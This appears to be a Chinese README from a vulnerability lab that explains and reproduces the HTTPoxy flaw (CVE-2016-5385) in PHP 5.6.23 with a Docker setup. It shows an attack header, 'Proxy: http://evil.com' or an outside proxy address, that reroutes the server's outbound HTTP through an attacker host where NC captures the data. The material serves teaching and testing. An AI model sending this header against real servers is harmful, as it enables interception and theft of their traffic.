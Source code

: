 # CGI HTTPoxy漏洞（CVE-2016-5385）

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```
docker-compose up -d
```

Web页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：

![](1.png)

在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：

![](2.png)

如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

![](3.png)
